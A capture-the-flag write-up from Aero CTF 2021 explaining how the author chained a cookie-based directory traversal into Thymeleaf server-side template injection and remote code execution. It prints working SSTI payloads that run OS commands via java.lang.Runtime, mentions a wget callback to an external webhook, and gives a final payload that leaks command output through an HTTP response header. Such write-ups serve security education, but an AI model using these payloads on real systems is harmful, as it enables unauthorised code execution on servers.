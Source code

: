 ## Aero CTF 2021
### Author: p4w @ [beerpwn](https://beerpwn.it)
### Twitter https://twitter.com/p4w16

## Challenge description (Web category)
![alt img](chall-desc.PNG)

## TL;DR
__Server Side Template Injection__ on __Thymeleaf__ template engine to gain __RCE__.

## Solution
### Discovery of the vuln
The challenge description says that the site is __available in english and russian__, this probably is written to point the attention to something involving the language.
Also the challenge description tell that the flag should be located at `/` on the file system, this make me think that it is necessary to gain at least an __arbitrary file read__ or __RCE__ to get the flag.
By inspection the site it is possible to notice that we can choose the language by clicking on a button.
As it is possible to notice that when the button is clicked (`onclick` event), then the `set_language(lang)` function will be executed.

![alt img](site.PNG)

![alt img](js.PNG)

The function simply set a cookie named __lang__ with the values __en__ or __ru__ and then reload the page.
Let's inspect the requests with burp-proxy.

![alt img](normal-req.PNG)

The first thing that I tried during the CTF, was to modify the cookie with some simple directory traversal payloads.

![alt img](dir_trav_3.PNG)

![alt img](dir_trav_1.PNG)

![alt img](dir_trav_2.PNG)

The directory traversal seems working, but if we try to include some arbitrary file (such as __/etc/passwd__) we got a __500 internal server error__. The error is verbose enough to show the server side exception: __org.thymeleaf.exceptions.TemplateInputException__ and
by googling this error, I come across to this template engine: [thymeleaf](https://www.thymeleaf.org/).

![alt img](thymeleaf.PNG)

The exception thrown seems to be related to loading the template, and that smells like __SSTI__ to me. So I start searching for __SSTI on Thymeleaf__ and I discovered a couple of related articles:
* [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)
* [https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability](https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability)

### Exploitation
Reading these articles, we can notice that a template injection in __Thymeleaf__ it may be possible if _a template name or a fragment are concatenated with untrusted data_.
To get a better explanation and details I really council the readers to read the articles mentioned before.
The proposed payloads to gain __RCE__ are these:

* `__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("<cmd-here>").getInputStream()).next()}__::.x`
* `${T(java.lang.Runtime).getRuntime().exec('<cmd-here>')}`

At this point I simply tried one of these payloads into the __lang__ cookie with a command such as ping `wget <webhook-endpoint>` to verify the __command execution__
and it worked __:=)__.

![alt img](rce-poc-2.PNG)

Now I had __RCE__ and since the flag was located in __/__, I needed some way to enumerate the file system contents and extract the flag. Problem was that it was not possible to use all the bash functionality such us `|, &, ``, $`. I also tried to extract files with and write files with `wget`, but no luck with that solution.
To summarize I had the ability to run commands, but no way to build a payload (__time based__ or __OOB__) that allow me to extract the output of an arbitrary command.
At this point I start to read the __thymeleaf__ [documentation](https://www.thymeleaf.org/doc/tutorials/3.0/usingthymeleaf.html) and some [Java-doc](https://docs.oracle.com/javaee/6/api/javax/servlet/http/HttpServletResponse.html) for Java objects, the basic idea that I had was to insert the output of the executed command directly into the __response__, for example by using a crafted HTTP header response with the output. After a bit of pain, I was able to build this payload: `__${#response.setHeader("cmd-out","test")}__::.x` and it worked __:)__!\
*[the above payload should work well on __Thymeleaf 3.0__, probably for __Thymeleaf 2.1__ could be: `__${#ctx.httpServletResponse.setHeader("cmd-out","test")}__::.x`]

![alt img](thymeleaf-doc.PNG)

![alt img](javadoc.PNG)

![alt img](set-header.PNG)

Now that we have the ability to modify the response, I simply played a bit with the Java-doc to build a payload that reads the output of the command and save it into the crafted header.
The final payload:
```
__${#response.setHeader(\"cmd-out\",#uris.escapeQueryParam(new java.io.BufferedReader(new java.io.InputStreamReader(T(java.lang.Runtime).getRuntime().exec(\"ls\").getInputStream())).lines().toArray()[0]))}__::.x
```
This payload will execute the `ls` command, read the first line, url-encode it and insert in the `cmd-header` of the HTTP response.

[Here](./x.py) you can download a simple python script that I made during the CTF to automate all of these steps and read all the lines of the executed command.

![alt img](script-run.PNG)

That's all folk, I think that was really an interesting challenge!\
Cheers, [p4w](https://twitter.com/p4w16) =)
